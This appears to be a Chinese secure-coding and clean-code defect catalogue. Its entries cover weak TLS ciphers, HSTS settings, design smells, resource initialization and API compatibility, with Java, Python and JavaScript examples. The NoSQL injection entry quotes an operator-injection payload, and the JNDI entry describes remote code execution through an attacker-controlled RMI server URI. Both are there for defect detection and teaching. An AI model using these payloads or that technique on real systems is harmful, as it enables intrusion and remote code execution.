#### CWD-1781-010 【SSH协议不安全配置项】SSH协议中使用弱消息认证算法：sshj组件使用sha1、MD5消息认证算法

#### CWD-1781-011 【TLS协议中加密套件使用存在不合规情形】SSL/TLS协议中使用CBC模式：代码中使用包含CBC加密模式的加密套件

#### CWD-1781-012 【TLS协议中加密套件使用存在不合规情形】SSL/TLS协议中使用CBC模式：配置文件中使用包含CBC加密模式的加密套件

#### CWD-1781-013 【TLS协议中加密套件使用存在不合规情形】密码协议使用RSA弱密钥交换算法：代码中使用包含RSA弱密钥交换算法的加密套件

#### CWD-1781-014 【TLS协议中加密套件使用存在不合规情形】密码协议使用RSA弱密钥交换算法：配置文件中使用包含RSA弱密钥交换算法的加密套件

#### CWD-1781-015 【TLS协议中加密套件使用存在不合规情形】密码协议使用弱对称加密算法：代码中使用包含弱对称加密算法的加密套件

#### CWD-1781-016 【TLS协议中加密套件使用存在不合规情形】密码协议使用弱对称加密算法：配置文件中使用包含弱对称加密算法的加密套件

#### CWD-1781-017 【TLS协议中加密套件使用存在不合规情形】密码协议使用弱消息认证算法：代码中使用包含弱消息认证算法的加密套件

#### CWD-1781-018 【TLS协议中加密套件使用存在不合规情形】密码协议使用弱消息认证算法：配置文件中使用包含弱消息认证算法的加密套件

#### CWD-1781-019 【TLS协议中加密套件使用存在不合规情形】密码协议中使用匿名认证：代码中使用包含匿名认证算法的加密套件

#### CWD-1781-020 【TLS协议中加密套件使用存在不合规情形】密码协议中使用匿名认证：配置文件中使用包含匿名认证算法的加密套件

#### CWD-1781-021 【TLS协议中加密套件使用存在不合规情形】密码协议中使用无对称加密的套件：代码中使用包含无对称加密算法的加密套件

#### CWD-1781-022 【TLS协议中加密套件使用存在不合规情形】密码协议中使用无对称加密的套件：配置文件中使用包含无对称加密算法的加密套件

#### CWD-1781-023 通过setHeader/addHeader方法单独为请求设置控制响应头Strict-Transport-Security

#### CWD-1781-024 【敏感数据使用明文传输协议】避免使用FTP协议传输敏感数据：使用commons-net组件通过ftp协议进行敏感数据传输

#### CWD-1781-025 【敏感数据使用明文传输协议】避免使用HTTP协议传输敏感数据：使用HttpClient5组件通过http协议传输敏感数据

#### CWD-1781-026 【敏感数据使用明文传输协议】避免使用HTTP协议传输敏感数据：使用JDK原生（HttpURLConnection）API传输敏感数据

#### CWD-1781-027 【敏感数据使用明文传输协议】避免使用HTTP协议传输敏感数据：使用OkHttp组件通过http协议传输敏感数据

#### CWD-1781-028 【敏感数据使用明文传输协议】避免使用HTTP协议传输敏感数据：使用retrofit组件通过HTTP协议传输敏感数据

#### CWD-1781-029 【敏感数据使用明文传输协议】避免使用HTTP协议传输敏感数据：使用Spring RestTemplate(代码&XML)组件进行http协议传输敏感数据

#### CWD-1781-030 【敏感数据使用明文传输协议】避免使用Socket来进行敏感数据的交互：ServerSocket传输敏感数据

#### CWD-1781-031 【敏感数据使用明文传输协议】避免使用Socket来进行敏感数据的交互：Socket传输敏感数据

#### CWD-1781-032 【敏感数据使用明文传输协议】避免使用telnet协议传输敏感数据：使用commons-net组件通过telnet协议进行敏感数据传输

#### CWD-1781-033 【配置文件使用不安全协议】conf存在不安全协议配置

#### CWD-1781-034 【配置文件使用不安全协议】ini存在不安全协议配置

#### CWD-1781-035 【配置文件使用不安全协议】properties存在不安全协议配置

#### CWD-1781-036 【配置文件使用不安全协议】xml存在不安全协议配置

#### CWD-1781-037 【配置文件使用不安全协议】yml存在不安全协议配置

#### CWD-1781-038 nginx.conf配置文件中add_header配置项的Strict-Transport-Security的配置值不合理

#### CWD-1781-039 Tomcat通过FilterRegistrationBean代码注册过滤器关闭了HSTS头加固

#### CWD-1781-040 Tomcat通过web.xml配置过滤器关闭了HSTS头加固

#### CWD-1781-041 Tomcat通过FilterRegistrationBean设置的HSTS值不正确

#### CWD-1781-042 Tomcat通过web.xml配置过滤器设置的HSTS值不正确

#### CWD-1781-043 Huawei WSF安全框架通过hwsf-security.xml配置文件中HSTS节点属性配置不合理

#### CWD-1781-044 Huawei WSF安全框架通过FilterRegistrationBean代码注册过滤器设置HSTS的值不正确

#### CWD-1781-045 Huawei WSF安全框架通过web.xml配置过滤器设置HSTS的值不正确

#### CWD-1781-046 servlet框架通过setHeader/addHeader配置HSTS值不合理

#### CWD-1781-047 Spring Security框架通过HttpSecurity类调用disable函数关闭HSTS的header加固项

#### CWD-1781-048 Spring Security框架通过HttpSecurity类设置HSTS的header加固项值不正确

#### CWD-1781-049 USecurity安全框架通过FilterRegistrationBean设置HSTS的值不正确

#### CWD-1781-050 USecurity安全框架通过web.xml配置过滤器设置HSTS的值不正确

#### CWD-1781-051 【使用安全协议IKE的不安全版本】代码中使用IKEv1版本

#### CWD-1781-052 【使用安全协议IKE的不安全版本】配置文件中配置IKEv1版本

#### CWD-1781-053 【使用安全协议SNMP的不安全版本】代码中使用SNPv1/v2c版本

#### CWD-1781-054 【使用安全协议SNMP的不安全版本】配置文件中配置SNPv1/v2c版本

#### CWD-1781-055 【使用安全协议SSH的不安全版本】代码中使用SSHv1.x版本

#### CWD-1781-056 【使用安全协议SSH的不安全版本】配置文件中配置SSHv1.x版本

#### CWD-1781-057 【使用安全协议TLS的不安全版本】JDK 1.8默认使用TLSv1.2协议时, 可通过降级攻击方式使用TLS不安全的协议版本

#### CWD-1781-058 【使用安全协议TLS的不安全版本】yaml配置使用SSL2.0、SSL3.0、TLS1.0、TLS1.1不安全版本

#### CWD-1781-059 【使用安全协议TLS的不安全版本】代码中使用SSL2.0、SSL3.0、TLS1.0、TLS1.1不安全版本

#### CWD-1781-060 配置文件中使用SSL2.0、SSL3.0、TLS1.0、TLS1.1等不安全协议版本

---

# CWD-1821 未确保预处理条件编译的表达式的值为布尔值

**描述**
预处理指令如#if、#elif和#endif等常用于条件编译。这些指令中的表达式通常用于作为布尔值来决定是否编译某些代码段，如果不是布尔值，可能会导致代码的意图不明确，增加维护成本。例如#if 332。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1821-000 未确保预处理条件编译的表达式的值为布尔值

---

# CWD-1824 循环依赖-Cyclic Dependencies

**描述**
<div style="display: flex; align-items: center">
<div style="width: 75%; ">
两个或两个以上模块互相依赖，形成一个或多个环。“循环依赖”违反了Robert Martin提出的非循环依赖原则（ADP, Acyclic Dependencies Principle ），即模块间的依赖不是一个有向无环图（DAG, Directed Acyclic Graph）。如果两个或两个以上模块存在于同一个循环依赖中，那么单独维护或重用其中的任何一个模块都将变得困难甚至不可能。

**【典型问题】** 如右图中importer, meta, validator模块间调用形成了环，识别为循环依赖问题。经过分析，meta模块用来定义Excel配置的元数据，不应该依赖Excel导入的校验器validator模块，依赖不合理。该不合理依赖来源于ValidatorMeta校验器元数据持有了校验器作为成员变量。经过分析主要是ExcelValidatorDataProcessor需要根据元数据获取校验器的实现，因此可以将这一块的功能迁移到ExcelValidatorDataProcessor，为了避免元数据到校验器之间的重复解析，使用Map记录映射关系

</div>
<div style="width: 5%;">
</div>
<div style="width: 20%;">```mermaid
graph TD
A(importer)
B(meta)
C(validator)
A--> B--> C
C--> A
```

</div>**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1824-000 循环依赖-Cyclic Dependencies

---

# CWD-1826 破坏稳定抽象原则-SAP Breakers

**描述**
根据Clean Architecture中稳定抽象原则，稳定的方向蕴含着抽象的要求。如果抽象对象不够稳定，或稳定对象不够抽象，都被认为可能违反稳定抽象原则。根据Robert Martin的稳定抽象原则（Stable Abstractions Principle, SAP），一个模块的抽象程度应与其稳定性相匹配。稳定性指一个模块被众多模块依赖，那么它应该是稳定的，不易变化的。抽象程度指的模块包含更多的抽象类和接口，那么它容易隔离变化，避免改变实现影响到依赖于它的模块。因此，如果一个应该高稳定的模块并没有提供足够的抽象，可能导致任何内部实现的变化都影响依赖它的其他模块；同时，因为抽象并不提供具体功能，一个可以低稳定的模块如果提供了太多的抽象，属于过渡设计，增加了不必要的复杂度。这两类情况都会被认为存在破坏稳定抽象原则。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1826-000 破坏稳定抽象原则-SAP Breakers

---

# CWD-1827 拒绝父类馈赠-Refused Parent Bequest

**描述**
子类拒绝父类提供的方法和变量。在面向对象编程中，继承关系是一种允许一个类（子类）继承另一个类（父类）的特性和行为的关键机制。拒绝父类馈赠是Martin Flower提到的一种跟继承关系相关的典型坏味道。表现为继承关系中，子类不使用父类的方法和变量。它表明继承关系可能不合理。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1827-000 拒绝父类馈赠-Refused Parent Bequest

---

# CWD-1828 传统破坏者-Tradition Breaker

**描述**
违反了里氏替换原则，子类修改了父类对外部承诺的行为。里氏替换原则（Liskov Substitution Principle, LSP）是面向对象设计的五个基本原则（SOLID原则）之一，由计算机科学家 Barbara Liskov 于1987年提出。LSP 的核心思想是：子类型必须能够替换掉它们的基类型，而不会影响程序的正确性。“传统破坏者”即违反了里氏替换原则，表现为：


- 采用空方法体进行重写。虽然继承了基类的方法，但是将其实现为空，实际上是取消了该方法的功能。- 降低基类中Public方法的可见性。可能导致对基类方法的调用异常。
**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1828-000 传统破坏者-Tradition Breaker

---

# CWD-1829 继承层次混乱-Distorted Hierarchy

**描述**
继承层次过窄且过深。在面向对象的设计中，继承允许开发者通过创建基类（父类）和派生类（子类）的关系来重用和扩展代码。理想的继承层次应当是平衡的，即不应过于宽泛，也不应过于深入。一个健康的继承层次通常有助于代码的可读性和可维护性。然而，当继承层次变得“混乱”时，即层次过深而且每一层只有少数类继承，这会导致几个问题：


- 记忆负担增加：如Arthur Riel所指，继承层次最好不要超过一个人的短期记忆容量。过深的层次结构使得开发者难以记住每个类的功能和关系。- 维护困难：在深层次的继承结构中，理解每个类的作用和定位需要更多时间和精力，从而增加了维护的难度。- 封装问题：如果在非常细粒度的层级进行封装，可能导致过多的类仅仅为了添加非常具体的功能或行为，这种做法可能违反了封装的原则，即应该只有当它提供了明显的价值和功能时，才定义一个新的类。
**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1829-000 继承层次混乱-Distorted Hierarchy

---

# CWD-1830 上帝类-God Class

**描述**
类本身比较复杂且缺乏内聚，大量使用外部数据，控制过多外部功能。上帝类通常包含大量的数据和方法，处理多种不相关的任务，违反了单一职责原则（SRP, Single Responsibility Principle）。导致代码难以维护、测试和重用。这种类往往成为系统中的中心枢纽，与许多其他类交互，增加了系统的复杂性和耦合度。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1830-000 上帝类-God Class

---

# CWD-1831 上帝文件-God File

**描述**
文件本身比较复杂且缺乏内聚，大量使用外部数据，控制过多外部功能。上帝文件与上帝类相似，通常包含大量的数据和方法，处理多种不相关的任务，违反了单一职责原则（SRP, Single Responsibility Principle）。导致代码难以维护、测试和重用。这种文件往往成为系统中的中心枢纽，与许多其他类交互，增加了系统的复杂性和耦合度。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1831-000 上帝文件-God File

---

# CWD-1832 复杂类-Blob Class

**描述**
过于大而复杂的类。Blob Class是一个非常大且具有高复杂性的类，因此很难维护。同时，过大的规模和复杂性，也导致Blob Class自身缺乏内聚，并可能和其他类存在更高的耦合度。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1832-000 复杂类-Blob Class

---

# CWD-1833 复杂文件-Blob File

**描述**
过于大而复杂的文件。Blob File是一个非常大且具有高复杂性的文件，因此很难维护。同时，过大的规模和复杂性，也导致Blob File自身缺乏内聚，并可能和其他文件存在更高的耦合度。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1833-000 复杂文件-Blob File

---

# CWD-1834 精神分裂类-Schizophrenic Class

**描述**
一个类提供几组完全不相关的接口，接口没有按照功能进行内聚。在面向对象编程中，一般要求对象保持单一职责原则（SRP, Single Responsibility Principle）。但“精神分裂类”（Schizophrenic Class）通常提供了一组不相关的接口，在不同的上下文中承担不同的职责和行为。使得类的意图不明确，增加了代码的复杂性和维护难度。

**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1834-000 精神分裂类-Schizophrenic Class

---

# CWD-1835 精神分裂文件-Schizophrenic File

**描述**
一个文件提供几组完全不相关的接口，接口没有按照功能进行内聚。与“精神分裂类”（Schizophrenic Class）定义相似。虽然编程语言不一定是面向对象编程的，但我们仍然希望保持单一职责原则（SRP, Single Responsibility Principle）。如果文件提供了一组不相关的接口，在不同的上下文中承担不同的职责和行为。使得类的意图不明确，增加了代码的复杂性和维护难度。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1835-000 精神分裂文件-Schizophrenic File

---

# CWD-1838 霰弹式修改-Shotgun Surgery

**描述**
修改一个问题，需要同时修改多处代码。修改该方法会引出其他大量的修改。而且这种修改是分布的，并不集中于某一类或某个包。存在这种缺陷的方法常常被称为“瓶颈方法”，该方法通常具有很高的复杂度，引用大量的外部方法并被众多方法调用，极有可能引入Bug。在《重构》包含有对“霰弹式修改”的定义，即Shotgun Surgery描述了一种与Divergent Change相似但相反的状况：如果每遇到某种变化，你都必须在许多不同的classes内做出许多小修改以响应之，你所面临的坏味道就是霰弹式修改。如果需要修改的代码散布四处，你不但很难找到它们，也很容易忘记某个重要的修改。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1838-000 霰弹式修改-Shotgun Surgery

---

# CWD-1839 依恋情节-Feature Envy

**描述**
方法很少访问自己类/文件中的数据，总是访问外部的数据。在设计中，我们希望相关的数据和方法能够封装在一起，形成对应的类/文件。因此方法应该主要关注当前类/文件内的数据。如果方法过分的关注于外部数据，而非自身，则造成了依恋情节。依恋情节会导致可读性、可维护性降低，当前类/文件需要知道另一个类/文件过多细节。往往伴随有重复代码、霰弹式修改等问题。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1839-000 依恋情节-Feature Envy

---

# CWD-1841 数据泥团-Data Clumps

**描述**
在软件代码存在中多次重复出现的数据组。如相似的方法参数列表，没有封装成一个结构。“数据泥团”通常反应了数据未能很好地封装，表现为大量相同的参数列表在软件代码中重复出现。容易造成可维护性问题和重复代码问题。例如，代码复杂性增加：数据泥团会导致代码中存在大量的重复逻辑和冗余代码，使得代码变得复杂难懂，增加了维护和修改的难度。可维护性降低：由于数据泥团导致代码复杂性增加，当需要修改某个数据时，需要在多个地方进行修改，容易出现遗漏或错误，降低了代码的可维护性。数据一致性问题：数据泥团可能导致数据的不一致性，当多个地方使用相同的数据时，如果其中一个地方的数据发生了变化，其他地方可能无法及时更新，导致数据不一致。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1841-000 数据泥团-Data Clumps

---

# CWD-1842 NoSQL注入

**别名: **NoSQL命令中使用的特殊元素中和不当（“NoSQL注入”）；不可信数据直接拼接NoSQL语句；未能维持NoSQL查询结构（“NoSQL注入”）；NoSQL命令中使用的特殊元素清理不当（“NoSQL注入”）

**描述**
涵盖非关系型数据库（如MongoDB、Cassandra）的注入场景，与传统 SQL 注入基于字符串拼接不同，NoSQL 注入利用了 NoSQL 查询语言的特性（如对象操作、ORM 语法、JSON 查询等）和应用程序逻辑的缺陷。攻击方式可能包括操作JSON/BSON查询、运算符注入（如`$ne`、`$where`）等。


- 典型攻击场景：
  - 用户输入直接拼接到MongoDB的`find()`、`aggregate()`等操作中。  - 通过HTTP参数注入查询运算符（如`?user[$ne]=admin`）。- 核心问题根源
  - 缺乏参数化查询：与 SQL 一样，最大的问题是将用户输入直接拼接到查询语句中，而不是使用安全的驱动程序提供的参数化方法。  - 查询语言即对象：NoSQL 查询通常是作为对象或 JSON 传递的。如果用户输入被“解析”而非“绑定”，攻击者就可以注入一个操作符对象。  - 宽松的类型系统：许多应用程序层（如 JavaScript）和数据库之间类型转换不严格，导致字符串被意外地解释为操作符或布尔值。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1842-000 NoSQL注入

#### CWD-1842-001 JavaScript 注入 ($where 子句注入)

#### CWD-1842-002 数组操作符注入

---

# CWD-1843 资源初始化不正确

**描述**
对某资源进行初始化但操作有误，可能导致该资源在被访问时处于意外、错误或不安全的状态。当相关资源需要具备特定属性或数值时，此问题可能引发安全隐患。典型场景包括：判断用户是否通过认证的变量未正确初始化，或决定产品安全状态的寄存器/熔丝值设置不当。

在软件层面，此缺陷常源于隐式初始化——即未将资源显式设置为特定值。例如C语言中栈分配的内存未必被清除，许多脚本语言在变量未显式初始化时默认采用空值、零值或null值。

在硬件层面，该缺陷常见于复位值与熔丝配置。产品复位后寄存器可能初始化错误；在产品生命周期不同阶段，熔丝可能被设置为错误数值。即使熔丝设置正确，连接熔丝的线路也可能断裂，或存在改变熔丝值的硬件干扰，最终导致数值错误。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**示例**
**案例1: 竞态条件导致的资源初始化不正确**
**语言: **JAVA

**描述**
这里使用了一个boolean initiailized字段，以确保初始化任务只完成一次。但是在静态初始化的时候，这个字段被错误的设置为true，所以初始化代码永远不会到达。

**案例分析**
1. 线程安全问题：当多个线程同时调用 someMethod() 时，可能出现以下情况：
   - 线程A检查 initialized 为 false，准备执行初始化
   - 线程B也检查 initialized 为 false，也准备执行初始化
   - 两个线程都会执行初始化代码，导致资源被多次初始化
2. 内存可见性问题：initialized 字段没有使用 volatile 修饰，一个线程将 initialized 设置为 true 后，其他线程可能无法立即看到这个变化。

**反例**
```java
private boolean initialized = true;

public void someMethod() {
    if (!initialized) {

        // 执行初始化任务
        // ...

        initialized = true;
    }
}
```

**正例**
```java
private final AtomicBoolean initialized = new AtomicBoolean(false);

public void someMethod() {
    // 使用CAS操作确保只有一个线程能执行初始化
    if (initialized.compareAndSet(false, true)) {
        // 执行初始化任务
        initializeResources();
    }
}

private void initializeResources() {
    // 具体的初始化逻辑
    // 这个操作应该是幂等的
    System.out.println("执行资源初始化...");
    // 初始化代码...
}
```

**修复建议**
|方案|实现方式|优点|缺点|适用场景|
|--|--|--|--|--|
|synchronized|synchronized方法 + volatile|简单直观，易理解|性能较差，每次调用都同步|低并发，简单业务|
|静态内部类|利用类加载机制|性能最佳，无锁|初始化时机不可控|类加载时初始化|
|AtomicBoolean|CAS操作|性能好，控制灵活|代码稍复杂|`推荐`：高并发场景|
|双重检查锁|volatile + 双重检查|性能较好|实现复杂易出错|延迟初始化|

#### CWD-1843-000 资源初始化不正确

#### CWD-1843-001 使用不安全的值初始化资源

#### CWD-1843-002 key-value对象有相同的key

#### CWD-1843-003 列表中包含的多个元素引用同一个对象实例

#### CWD-1843-004 子类构造时未正确初始化父类资源

#### CWD-1843-005 在构造函数中初始化静态字段

#### CWD-1843-006 同一个类内的成员变量初始化方式不一致

#### CWD-1843-007 初始化依赖顺序不正确

#### CWD-1843-008 在自旋锁使用的生命周期范围内再次调用初始化函数，导致资源泄露或未定义行为

**业界缺陷**

- [CWE-1419: Incorrect Initialization of Resource](https://cwe.mitre.org/data/definitions/1419.html)
---

# CWD-1844 未完成清理

**别名: **不完整的清理

**描述**
当产品不能正确地清理其行为或操作所创建或更新的资源时，就会存在该缺陷。这可能导致这些资源在后续使用中处于意外或不安全的状态。

软件需要管理资源，例如内存、文件、连接、注册表项等。在创建或使用资源后，产品可能无法始终执行必要的清理步骤，例如：


- 未能从内存中释放一个指针。- 未能正确地关闭一个文件句柄。- 未能注销一个回调函数。- 未能重置一个临时权限提升。- 未能清除敏感信息（例如，在释放内存之前未将其清零）。
这种不完整的清理可能会导致多种后果，例如资源耗尽（例如内存泄漏）、意外的可访问状态（例如，临时文件未被删除）或信息泄露（例如，敏感数据残留）。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1844-000 未完成清理

#### CWD-1844-001 临时文件使用完毕后未清理

#### CWD-1844-002 finalize()没有调用super.finalize()

#### CWD-1844-003 【临时文件未及时删除，大量临时文件占用硬盘资源】通过文件对象创建在临时目录的文件或临时文件使用完没有进行删除

#### CWD-1844-004 在临时目录中或通过临时文件创建函数创建的临时文件没有进行删除

#### CWD-1844-005 文件处理过程中产生的临时文件没有得到及时删除

---

# CWD-1845 JNDI注入

**描述**
JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI在局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。 


- 可能被攻击的方式如下：
  1. 目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控；  2. 攻击者控制URI参数为恶意的RMI服务地址，如：rmi://hacker_rmi_server//name；  3. 攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类；  4. 目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例；  5. 攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果； 
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

#### CWD-1845-000 JNDI注入

#### CWD-1845-001 使用低版本JDK（低于6u132、7u122、8u113）时，com.sun.jndi.rmi.object.trustURLCodebase属性设置为true后，允许RMI服务器从远程的codeBase加载任意代码，造成JNDI注入

#### CWD-1845-002 使用高版本JDK时，被攻击服务器中存在可利用类进行攻击

---

# CWD-1846 函数返回个数不一致

**描述**
在大多数编程语言中，函数只能返回一个值。所谓的`返回值个数不正确`通常表现为：


- 试图返回多个独立值- 逻辑分支返回不同类型或数量的值- 误解了返回集合的情况
主要问题为：


- 运行时错误：解构赋值时出现 `undefined`；Python 中的解包错误；数组越界访问- 代码可读性问题：调用方难以理解返回值结构；需要额外的文档说明；代码逻辑分散- 维护困难：添加新分支时容易出错；重构困难；测试用例复杂
**语言: **PYTHON,JAVASCRIPT,TYPESCRIPT

**严重等级**
致命

**cleancode特征**
可靠

**示例**
**案例1: 同一个函数内，不同分支返回不同数量的值会导致解包时出现错误**
**语言: **PYTHON

**描述**
同一个函数内，不同分支返回不同数量的值会导致解包时出现错误

**反例**
```python
def get_user_data(include_age):
    if include_age:
        return "张三", 25  # 返回元组 (name, age)
    else:
        return "李四"     # 只返回字符串

# 解包时可能出现错误
name, age = get_user_data(False)  # ValueError: too many values to unpack
```

**正例**
```python
def get_user_data(include_age):
    name = "张三"
    if include_age:
        return name, 25
    else:
        return name, None  # 保持相同数量的返回值

name, age = get_user_data(False)
if age is not None:
    print(f"{name} 的年龄是 {age}")
```

**修复建议**
使用默认值

**案例2: 同一个函数内，不同分支返回不同数量的值会导致解构赋值时出现问题**
**语言: **JAVASCRIPT

**描述**
同一个函数内，不同分支返回不同数量的值会导致解构赋值时出现问题

**反例**
```javascript
function getUserInfo(includeDetails) {
    if (includeDetails) {
        return ["张三", 25, "北京市"];  // 返回3个值
    } else {
        return ["李四"];  // 只返回1个值
    }
}

// 解构赋值时会出现问题
const [name, age, address] = getUserInfo(false);
console.log(name);   // "李四"
console.log(age);    // undefined - 预期是数字
console.log(address); // undefined - 预期是字符串
```

**正例**

- 方案一：统一返回数组（固定长度）```javascript
function getUserInfo(includeDetails) {
    if (includeDetails) {
        return ["张三", 25, "北京市"];
    } else {
        return ["李四", null, null];  // 保持相同长度
    }
}

// 调用方可以安全解构
const [name, age, address] = getUserInfo(false);
```

- 方案二：返回对象结构```javascript
function getUserInfo(includeDetails) {
    if (includeDetails) {
        return {
            name: "张三",
            age: 25,
            address: "北京市"
        };
    } else {
        return {
            name: "李四"
            // age 和 address 可选或为 undefined
        };
    }
}

// 安全访问
const user = getUserInfo(false);
console.log(user.name);     // "李四"
console.log(user.age);      // undefined
console.log(user.address);  // undefined
```


**修复建议**
1. 保持返回值结构一致性
2. 优先使用对象而不是数组返回多个值
3. 使用 TypeScript/Python 类型注解明确返回值类型
4. 为可选字段提供明确的 `null` 或 `undefined` 值
5. 使用解构默认值

#### CWD-1846-000 函数返回个数不一致

---

# CWD-1847 std::move使用不当

**描述**
在 C++ 中，`std::move` 是一个强大的工具，但如果使用不当会导致各种问题。例如：对局部变量使用 `std::move`  破坏了类型一致性，阻止了编译器的返回值优化。正确的做法是直接返回局部变量。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1847-000 std::move使用不当

#### CWD-1847-001 使用std::move后的资源继续使用导致未定义行为

#### CWD-1847-002 使用std::move返回函数局部变量，导致编译器的RVO、NRVO会失效

#### CWD-1847-003 使用std::move操作了const类型对象

---

# CWD-1848 对外开放API变更未保持向后兼容

**描述**
对外API不兼容是指在系统版本演进过程中，未遵循向后兼容原则，导致外部调用方因接口变更（如参数结构调整、字段删除/重命名、返回格式变化、校验增强、HTTP方法变更等）而无法正常调用或解析响应。此类问题虽不直接构成安全漏洞，但可能引发业务中断、数据错乱、客户端崩溃，甚至被攻击者利用进行协议混淆、注入或绕过逻辑校验。典型场景包括：

接口升级时删除或重命名必填参数，但未提供兼容路径；返回结构体中移除关键字段，导致下游强依赖该字段的服务异常；将原本宽松的字符串类型参数改为严格枚举类型，但未做旧值映射，添加特殊字符校验；修改 HTTP 状态码语义（如将 200 改为 201），影响自动化流程判断；在未通知调用方的情况下调整 API 路径（如 /v1/user → /api/v2/users）。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
可维护,可测试

**示例**
**案例1: 因盲目增强特殊字符校验，破坏 API 兼容性，影响正常业务流程**
**语言: **JAVA

**描述**
在系统升级过程中，开发团队为提升安全性或数据规范性，对接口入参增加了严格的校验规则（如非空、枚举限制、格式匹配、特殊字符校验等），但未评估现有调用方的兼容性，也未提供过渡方案（如默认值、宽松模式、版本隔离）。结果导致旧客户端因参数“看似合法”但不符合新规则而被拒绝，引发批量调用失败。

- 典型场景：
  某系统提供 /api/v1/customers/create 接口供合作伙伴创建客户资料。初期为支持国际化姓名，customerName 字段允许任意 UTF-8 字符串（包括 ', "", &, # 等）。后续安全团队发现日志中存在潜在 XSS 风险，要求禁止“危险字符”。开发团队在未评估历史数据和调用方的情况下，在原接口中直接添加正则校验 ^[a-zA-Z0-9\s]+$，导致大量包含合法特殊字符的客户名（如 O’Reilly, AT&T, Suite #101）被拒绝，引发客户投诉和数据同步中断

**反例**

- 升级前（v1 - 宽松模式，支持合法特殊字符）
```java
// CustomerControllerV1.java
@RestController
@RequestMapping(""/api/v1/customers"")
public class CustomerControllerV1 {

    public static class CreateCustomerRequest {
        private String customerName; // 允许任意字符串，包括 ' "" & # 等
        private String email;

        public String getCustomerName() { return customerName; }
        public void setCustomerName(String customerName) { this.customerName = customerName; }
        public String getEmail() { return email; }
        public void setEmail(String email) { this.email = email; }
    }

    @PostMapping(""/create"")
    public ResponseEntity<String> createCustomer(@RequestBody CreateCustomerRequest request) {
        // 直接保存，无特殊字符校验
        customerService.save(request.getCustomerName(), request.getEmail());
        return ResponseEntity.ok(""Customer created"");
    }
}
```


- 升级后（直接修改 v1，未做兼容）
```java
// CustomerControllerV1.java（错误升级）
import javax.validation.constraints.Pattern;

@RestController
@RequestMapping(""/api/v1/customers"")
public class CustomerControllerV1 {

    public static class CreateCustomerRequest {
        @Pattern(regexp = ""^[a-zA-Z0-9\\s]+$"", message = ""customerName must contain only letters, digits and spaces"")
        private String customerName;

        private String email;

        public String getCustomerName() { return customerName; }
        public void setCustomerName(String customerName) { this.customerName = customerName; }
        public String getEmail() { return email; }
        public void setEmail(String email) { this.email = email; }
    }

    @PostMapping(""/create"")
    public ResponseEntity<String> createCustomer(@Valid @RequestBody CreateCustomerRequest request) {
        customerService.save(request.getCustomerName(), request.getEmail());
        return ResponseEntity.ok(""Customer created"");
    }
}
```"
```

**正例**

- 发布 v2，安全输出 + 兼容输入
```java
// CustomerControllerV2.java
@RestController
@RequestMapping(""/api/v2/customers"")
public class CustomerControllerV2 {

    public static class CreateCustomerRequest {
        // 允许更宽泛的输入，但内部做安全处理
        private String customerName;
        private String email;

        public String getCustomerName() { return customerName; }
        public void setCustomerName(String customerName) { this.customerName = customerName; }
        public String getEmail() { return email; }
        public void setEmail(String email) { this.email = email; }
    }

    @PostMapping(""/create"")
    public ResponseEntity<String> createCustomer(@RequestBody CreateCustomerRequest request) {
        String name = request.getCustomerName();
        if (name == null || name.trim().isEmpty()) {
            throw new IllegalArgumentException(""customerName is required"");
        }

        // ✅ 安全做法：不限制输入字符，但在输出/存储时做编码或转义
        // 例如：日志记录时使用占位符，HTML 输出时自动转义
        String safeNameForLog = name.replaceAll(""[\r\n\t]"", ""_""); // 防日志注入
        logger.info(""Creating customer: {}"", safeNameForLog);     // 使用 SLF4J 参数化日志

        // 存储原始值（业务需要），前端展示时由模板引擎自动转义
        customerService.save(name, request.getEmail());

        return ResponseEntity.ok(""Customer created via v2"");
    }
}
```

**修复建议**
1. 强制 API 版本隔离
   所有破坏性变更必须通过新版本路径（如 /v2）发布；
2. 旧版本至少保留 6 个月，并通过文档/邮件通知调用方迁移。
   校验增强 ≠ 拒绝旧数据
   对枚举、格式等字段，提供兼容反序列化器（如 Jackson 的 @JsonCreator）；
3. 对缺失字段，设置业务合理的默认值，而非强制报错。
   渐进式校验策略
4. 初期开启“监控模式”：记录不合规请求但不拒绝；
   通过日志分析调用方分布，定向推动升级；
5. 最终切换为“严格模式”。
   契约先行 & 自动化验证
